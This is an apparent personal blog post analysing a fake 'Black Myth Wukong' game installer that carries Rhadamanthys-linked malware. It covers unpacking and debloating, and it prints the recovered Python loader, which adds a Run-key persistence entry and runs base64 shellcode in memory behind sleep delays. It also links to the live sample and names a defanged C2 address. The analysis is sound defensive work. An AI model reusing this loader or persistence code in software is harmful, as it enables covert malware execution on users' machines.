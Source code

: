 ```yaml
---
layout: post
title: Malware Analysis - Real Case 8
description: Fake Black Myth Wukong game - malware analysis 
tags: [Malware, Command and Control, Python, Blue Team, Reverse Engineering, Virustotal]
---
```


Hi guy, I've just had a very bad thing today... I don't wanna say it again because it's kinda vulnerable for me... By the way, I analysed a sample which existed a long time 
ago to forget all sad stories today. Ok let's go... (you can take sample [here](https://drive.google.com/file/d/1T0yLTM1brLbwPwDrTwM2HRlF1wl-ZbF8/view?pli=1))

First words, this is the malware that infected Mixi machine and this post is just for education, I will not take any responsibilities for your illegal actions!

Now go to the main part, I downloaded it and it's a .rar file, so just unrar it and get the full files inside:

![image](https://github.com/user-attachments/assets/e98fd07f-cc87-40e2-bedb-fa9095149f8d)

We can see that **Black Myth Wukong 64-bit.exe** will be the main point for this malware, now let's analyse it. I used **diec** to detect packed method and it was packed 
by Pyinstaller: 

![image](https://github.com/user-attachments/assets/ac2e41e3-8ea2-4f8a-94ae-d7301e92cf71)

From here we can use **pyinstxtractor-ng** to dump all components inside the exe file:

![image](https://github.com/user-attachments/assets/c99c6fa0-88d5-4261-8635-7ec44d7bde08)

You can see that **BSR.pyc** is the most suspicious file here, and to decompile pyc file we will use **uncompyle6** or **pycdc**. But when I tried it's not worked 
even though I used **pyinstxtractor-ng** which is the best tool till now:

![image](https://github.com/user-attachments/assets/4428708e-9031-4b00-a560-1483caee9ba8)

From here I guessed that there is something that I need to check, hmmmm kinda interesting huh? Normally these tools we are using may have some problems and in this case my tool decompile incompletely because this tool can just dump file that has the permitted size. From here I guessed that they used **PE Bloat** technique which is used to add junk bytes to the end of file so that the file size will be increased and AV cannot scan also our tools. The easiest to check is using **xxd** and look at the end of the file and as my expectation, there are so many junk bytes at the end of the file:

![image](https://github.com/user-attachments/assets/3e978852-4a2f-4371-8a9d-6fffc2d74af4)

There is a [tool](https://github.com/guelfoweb/reducebin) to help u remove all junk bytes inside the exe file. I used it and surprisingly the sample was reduced from 660 MB to 6.61 MB!:

![image](https://github.com/user-attachments/assets/ad90292c-3c20-4416-bfb7-141d5b1e6589)

Now do all the thing we did before with reduced file but I still could not decompile fully **BSR.pyc**. From here there is just one way is: read its assembly... But I don't have emotion to do anything here so I will use AI to write the function for me,... and this is the final result:

```python
import ctypes
import time
import winreg
import sys
import os
import subprocess
import base64

# Put very long string here
with open("C:\\Users\\Admin\\Documents\\Code\\Python\\payload.txt", "r") as Data:
    payload = Data.read()

def B(bits, encoding):
    n = int(bits, 2)
    byte_length = (n.bit_length() + 7) // 8 
    byte_data = n.to_bytes(byte_length, 'big')
    decoded_data = byte_data.decode(encoding)
    return decoded_data
modified_data = payload.replace('TTT', '0')
final_result = B(modified_data, 'utf-8')

with open("payload.py", 'a') as file:
    file.write(final_result)
```

Run it and you will get another payload:

![image](https://github.com/user-attachments/assets/0bf2b1f7-1a69-4951-9605-d9e8ffe4d10e)

```python
def Checker():
    REG_PATH = "Software\\Microsoft\\Windows\\CurrentVersion\\Run"
    try:
        registry_key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, REG_PATH, 0, winreg.KEY_READ)
        value, regtype = winreg.QueryValueEx(registry_key, "Steam_")
        winreg.CloseKey(registry_key)
        return True
            #return value
    except WindowsError:
        return False
            #return None
def P():
    Final_Location = os.path.dirname(sys.argv[0]).replace("/", "\\") + "\\" + os.path.basename(sys.argv[0])
    try:
        subprocess.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v {} /t REG_SZ /d "'.format("Steam_") + Final_Location + '"', shell=True)
    except:
        pass
def main():
    try:
        ELES = ctypes.windll.kernel32
        ELES.VirtualAlloc.argtypes = (CHead.LPVOID, ctypes.c_size_t, CHead.DWORD, CHead.DWORD)
        ELES.VirtualAlloc.restype = CHead.LPVOID
        time.sleep(69)
        time.sleep(13)
        ELES.CreateRemoteThread.argtypes = (CHead.HANDLE, CHead.LPVOID, ctypes.c_size_t, CHead.LPVOID, CHead.LPVOID, CHead.DWORD, CHead.LPVOID)
        ELES.CreateThread.restype = CHead.HANDLE
        time.sleep(13)
        ELES.RtlMoveMemory.argtypes = (CHead.LPVOID, CHead.LPVOID, ctypes.c_size_t)
        ELES.RtlMoveMemory.restype = CHead.LPVOID
        time.sleep(13)
        ELES.WaitForSingleObject.argtypes = (CHead.HANDLE, CHead.DWORD)
        ELES.WaitForSingleObject.restype = CHead.DWORD
        #memoryaddr = kernel32.VirtualAlloc(None, len(buf), 0x3000, 0x40)
        time.sleep(69)
        MAS = ELES.VirtualAlloc(None, len(base64.b64decode(SHSH.encode())), 0x3000, 0x40)
        time.sleep(13)
        # kernel32.RtlMoveMemory(memoryaddr, buf, len(buf))
        ELES.RtlMoveMemory(MAS, base64.b64decode(SHSH.encode()),len(base64.b64decode(SHSH.encode())))
        time.sleep(47)
        thrd2 = ELES.CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_void_p(MAS), ctypes.c_int(0),ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0)))
        time.sleep(69)
        ELES.WaitForSingleObject(thrd2, -1)
    except Exception as error:
        pass
if __name__ == "__main__":
    #P()
    #f=open("Base64DInvokePAMSI_ETW_ShellCode.txt","w")
    #f.write(base64.b64encode(buf).decode())
    time.sleep(27)
    #if(not Checker()):
        #P()
    #print("Done")
    time.sleep(13)
    time.sleep(13)
    main()
```

They are main functions for the payload. The script manipulates the Windows registry to set itself to run automatically at startup by adding an entry to the **HKCU\Software\Microsoft\Windows\CurrentVersion\Run** registry key. It then uses ctypes to call Windows API functions, allocating memory, copying base64-decoded shellcode into that memory, and executing it in a new thread. The script incorporates delays to avoid detection and evasion mechanisms, allowing it to execute malicious payloads in memory without writing them to disk. From here I will take base64 string, decode it and get the shellcode:

![image](https://github.com/user-attachments/assets/e31e5cf1-5a0b-445b-80d3-d154d634cf72)

Check shellcode and it's a PE32 file:

![image](https://github.com/user-attachments/assets/57b1c801-a77c-4ab2-9bd4-2f7f1e97d662)

From here I use **any.run** to run this shellcode and I got some results: 

![image](https://github.com/user-attachments/assets/7f9dfaca-849b-4388-8de0-7c755496fef9)

The shellcode tried to connect to an IP address: **94[.]156[.]8[.]129** and when searched it in **Virustotal**, it was noted as the C2 address for **Rhadamanthys** malware. Moreover, we can see that **dialer.exe** was marked as malicious while it's in **System32**? From here I guessed that shellcode would inject to **dialer.exe** process and from this process attacker can do some evil things. 

Ok so this is the end now. I can just analyse till here because of limited knowledge. It's time for me to find some peaceful place for healing, I had so many bad things this morning. Thank you everyone for loving me, giving me chance to display myself. Finally, I love you so much...  




